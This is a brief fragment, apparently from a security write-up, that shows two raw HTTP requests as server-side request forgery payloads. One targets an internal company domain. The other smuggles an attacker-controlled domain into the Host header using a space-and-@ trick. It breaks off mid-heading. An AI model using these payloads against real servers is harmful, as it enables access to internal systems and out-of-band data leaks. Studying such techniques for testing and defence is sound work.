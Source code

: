 <h3 align="center">
  <img src="4.jpg" alt="SSRF" width="700px"></a>
</h3>


```sh
GET http://internal-domains.company.com/ HTTP/1.0
Cache-Control: no-transform
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept-Encoding: gzip, deflate
Accept: */*
```



<h3 align="center">2 - Blind SSRF but there isn't luck to hit internal services</h3>


```sh
GET / HTTP/1.1
Host: company.com @MY-Domain #did you notice that there is a space between company.com and @
Cache-Control: no-transform
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:68.0) Gecko/20100101 Firefox/68.0
Accept-Encoding: gzip, deflate
Accept: */*
```

<h3 align="center">
